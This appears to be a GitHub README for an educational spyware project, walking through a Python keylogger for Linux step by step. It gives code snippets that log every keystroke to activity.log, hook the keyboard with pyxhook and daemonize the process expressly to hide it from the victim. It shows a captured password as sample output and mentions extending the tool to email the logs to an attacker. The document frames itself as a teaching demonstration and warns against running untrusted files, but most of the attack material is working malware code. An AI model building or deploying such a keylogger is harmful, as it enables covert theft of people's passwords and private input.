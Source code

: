 # Spyware

There exist many ways of spying on the victim. Our **spyware** is represented by **keylogger**, a simple program that monitors pressed keys on the keyboard and can see everything you type. This **keylogger** is implemented in the file `keylogger.py`.

#### Demonstration of behavior

We don't need any specific preparation before an execution of the keylogger (`./keylogger.py`). We can observe that after the execution nothing happened and we can type new commands, just like in the case of us pressing only the key `Enter`. Now you can do on your system anything you want. For the demonstration you can open a browser and type something like `Passwd` representing your potential password, just like you would do on any login page of your social media.

You can now spot that in the same folder as our **keylogger** is located a new file `activity.log`. By observing the file your can see that it contains all keys you have pressed on your keyboard after the execution, including your password `Passwd`. Attacker can easily access those file and modify the keylogger to send them on specific e-mail address or with a combination with different kind of malware he might gain direct access to them via network.

```
Key: P
Key: a
Key: s
Key: s
Key: w
Key: d
```

Creation of **keylogger** is very simple process as it is described below and anyone can do it just with a basic knowledge of programming and understandment of operating systems. That's why we should be always cautions when we execute any uncommon or not trusted file.

#### How does it work?

 - Firstly, we configure our logger. We can specify the file in which should be the data stored as well as a format of the message.
   ```python
   logging.basicConfig(
       level=logging.DEBUG,
       filename='activity.log',
       format='Key: %(message)s',
   )
   ```
 - Then we have to obtain the logging file handler. We will explain why in the next step.
   ```python
   handler = logging.getLogger().handlers[0].stream
   ```
 - To make our spyware harder to spot by the victim, we want it to run in the background as a **daemon**.
   To learn more about daemons, see [the guide to daemons](https://kb.iu.edu/d/aiau). For this purpose we
   will use a standart Python module `daemon` that will allow us to daemonize our **keylogger**.
   When the the daemon is created, we will loose connections to all file handler like `stdout` or even 
   our logging file unless we specify that the files should be preserved. That's why we have obtained
   logging file handler in the previous step. In the context of our hidden daemon we can now create the
   keylogger and start its activity.
   ```python
   # Daemonize the process to hide it from the victim.
   with daemon.DaemonContext(files_preserve=[handler]):
       # Create keylogger.
       keylogger = Keylogger('SimpleSpyware')
       # Start logging activity of the user.
       keylogger.start_logging()
   ```
  - For obtaining the _key press events_ we can use a python module for Linux called `pyxhook`. If we
    would create a keylogger for Windows, we should use module `pyHook` instead, but their interface is
    very similar. We create a **hooking manager**, that will manage event handling and allows us to 
    set a callback for those events. Callback is in our case a function that will be called each time a new
    event is obtained (__keydown_callback_). The only thing this method does is logging the key into our
    specified file `activity.log`.
    ```python
    hook_manager = pyxhook.HookManager()
    # Assign callback for handling key strokes.
    hook_manager.KeyDown = self._keydown_callback
    # Hook the keyboard and start logging.
    hook_manager.HookKeyboard()
    hook_manager.start()
    ```
